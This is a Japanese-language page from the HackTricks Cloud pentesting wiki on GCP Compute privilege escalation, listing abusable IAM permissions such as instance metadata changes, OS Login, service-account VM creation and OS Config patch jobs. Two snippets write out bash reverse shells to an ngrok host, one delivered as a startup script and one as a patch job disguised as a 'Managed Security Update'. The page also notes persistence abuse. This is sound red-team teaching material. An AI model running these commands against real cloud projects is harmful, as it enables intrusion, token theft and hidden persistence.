 # GCP - Compute Privesc

{% hint style="success" %}
AWSハッキングを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローする。**
* **PRを提出してハッキングトリックを共有する** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリに。

</details>
{% endhint %}

## Compute

GCPのComputeとVPC（ネットワーク）に関する詳細情報は以下を参照してください:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
インスタンスのメタデータを変更する（新しいユーザーやSSHキーを追加するなど）すべての権限昇格攻撃を実行するには、インスタンスにアタッチされているSAに対して`actAs`権限が必要です。SAがすでにアタッチされている場合でも必要です！
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

この権限を持つことで、**インスタンス**の**メタデータ**情報を**変更**し、ユーザーの**認証キー**を変更したり、**sudo権限を持つ新しいユーザー**を**作成**したりすることができます。したがって、任意のVMインスタンスにSSH経由で接続し、そのインスタンスで実行されているGCPサービスアカウントを盗むことができます。\
制限事項:

* VMインスタンスで実行されているGCPサービスアカウントはデフォルトで**非常に限定されたスコープ**を持っています
* ログインするために**SSHサーバーに接続できる**必要があります

この権限を悪用する方法の詳細については以下を参照してください:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

この攻撃は、新しいスタートアップスクリプトを追加してインスタンスを再起動することでも実行できます:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

この権限は、**前の権限と同じ特権**を持ちますが、プロジェクト全体ではなく特定のインスタンスに対して適用されます。**前のセクションと同じエクスプロイトと制限が適用されます**。

### `compute.instances.setIamPolicy`

この種の権限は、**前の権限を持つロールを自分に付与**し、それを悪用して特権をエスカレートすることを可能にします。

### **`compute.instances.osLogin`**

**OSLoginがインスタンスで有効になっている場合**、この権限を持っていると、**`gcloud compute ssh [INSTANCE]`**を実行してインスタンスに接続できます。インスタンス内で**root権限は持ちません**。

{% hint style="success" %}
この権限でVMインスタンス内に正常にログインするには、VMにアタッチされているSAに対して`iam.serviceAccounts.actAs`権限を持っている必要があります。
{% endhint %}

### **`compute.instances.osAdminLogin`**

**OSLoginがインスタンスで有効になっている場合**、この権限を持っていると、**`gcloud compute ssh [INSTANCE]`**を実行してインスタンスに接続できます。インスタンス内で**root権限を持ちます**。

{% hint style="success" %}
この権限でVMインスタンス内に正常にログインするには、VMにアタッチされているSAに対して`iam.serviceAccounts.actAs`権限を持っている必要があります。
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

サービスアカウントが割り当てられた仮想マシンを**作成し、メタデータにアクセスしてサービスアカウントのトークンを盗む**ことで、その特権をエスカレートすることが可能です。

この方法のエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)にあります。

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`**または**`osconfig.patchJobs.exec`**権限を持っている場合、[**パッチジョブまたはデプロイメント**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)を作成できます。これにより、環境内で横移動し、プロジェクト内のすべてのコンピュートインスタンスでコードを実行することが可能になります。

現時点では、インスタンスにアタッチされているSAに対して**`astAs`権限は必要ありません**。

手動でこれをエクスプロイトする場合は、[**パッチジョブ**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json)または[**デプロイメント**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)を作成する必要があります。\
パッチジョブを実行するには:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

パッチデプロイメントをデプロイするには:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
[patchy](https://github.com/rek7/patchy) ツールは過去にこの誤設定を悪用するために使用されていました（現在は動作しません）。

**攻撃者はこれを持続性のために悪用することもできます。**

### `compute.machineImages.setIamPolicy`

**追加の権限を自分に付与** して compute Image を操作します。

### `compute.snapshots.setIamPolicy`

**追加の権限を自分に付与** してディスクスナップショットを操作します。

### `compute.disks.setIamPolicy`

**追加の権限を自分に付与** してディスクを操作します。

### アクセススコープのバイパス

このリンクをたどると、[**アクセススコープをバイパスするためのアイデア**](../)が見つかります。

### GCP Compute インスタンスでのローカル特権昇格

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hacking を学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking を学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks をサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop) をチェック！
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) をフォローしてください。
* **ハッキングトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks) および [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github リポジトリに PR を提出してください。

</details>
{% endhint %}
